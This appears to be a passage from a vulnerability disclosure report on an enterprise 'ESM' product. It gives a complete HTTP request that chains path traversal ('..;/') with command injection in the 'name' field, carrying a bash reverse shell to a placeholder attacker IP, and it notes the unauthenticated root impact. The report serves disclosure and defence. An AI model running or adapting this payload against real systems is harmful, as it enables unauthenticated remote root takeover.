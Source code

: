 ### Step 2: Remote Code Execution via Command Injection with Root Privileges

The following command injection payload in the `name` parameter provides remote root access:

#### Request Example:
```http
POST /rs/..;/Snowservice/SnowflexAdminServices/ManageNode HTTP/1.0
Host: [ESM IP]
Accept: application/json
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.59 Safari/537.36
Content-Length: 186

{
    "serverName": "test132",
    "processes": [
        {
            "name": "`bash -i >& /dev/tcp/[Attacker IP]/2137 0>&1`", 
            "signal": "Restart"
        }
    ]
}
```

This payload opens a reverse shell to the attacker’s machine, providing root access and full control over the system.

---

## Supporting material/references:
* **Screenshot 1**: screenshot.png - This screenshot shows the HTTP request used to exploit the command injection vulnerability and the reverse shell connection received by the attacker.
* **Screenshot 2**: screenshot2.png - This screenshot displays the process list on the compromised system, showing the injected command being executed as root. It also shows the whole command executed.

---

## Impact

Exploiting this vulnerability allows an attacker to:
- Gain **unauthenticated** access to internal API endpoints through path traversal.
- Execute arbitrary commands as root, compromising the system entirely.

The impact of this vulnerability is rated **Critical** due to the combination of unauthenticated path traversal, insecure proxy forwarding, and command injection.

---

## Recommendations
